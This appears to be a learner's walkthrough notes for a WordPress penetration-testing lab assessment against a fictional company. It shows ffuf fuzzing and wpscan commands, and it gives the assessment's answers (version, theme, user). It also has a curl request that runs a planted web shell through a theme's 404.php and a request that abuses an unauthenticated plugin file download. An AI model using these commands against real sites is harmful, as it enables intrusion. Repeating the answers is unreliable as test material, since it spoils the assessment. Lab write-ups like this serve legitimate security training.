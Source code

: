 Now let's put all of the new skills we have learned into practice. This final skills assessment will test each of the topics introduced in this module against a new WordPress target.
Scenario

You have been contracted to perform an external penetration test against the company INLANEFREIGHT that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

-----------------------

**Questions in this section:**

Identify the WordPress version number. 

Not seeing a wordpress site... trying to enumerate.

`ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://10.129.2.37/FUZZ -e .php -ic `

Doesn't find anything.

Maybe I need to vhost fuzz...

`ffuf -w /Users/noneya/Useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://inlanefrieght.htb -H 'Host: FUZZ.inlanefreight.htb'`

Nope...

I'm dumb its page https://w3layouts.com/

Or maybe not...

So the problem is it was a vhost but I had the wrong name of the site. I needed to be looking for inlanefreight.local.

The site with WP is http://blog.inlanefreight.local/

`wpscan --url "http://blog.inlanefreight.local/" --enumerate --api-token [nope mine kid]

Answer is:
version 5.1.6


Identify the WordPress theme in use. 

Answer is twentynineteen

Submit the contents of the flag file in the directory with directory listing enabled. 

I just got this after getting RCE and searching around...
`curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat%20%2F/var/www/blog.inlanefreight.local/public_html/wp-content/uploads/upload_flag.txt"`

Identify the only non-admin WordPress user. (Format: <first-name> <last-name>) 

Charlie Wiggins

Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download. 

`curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'`
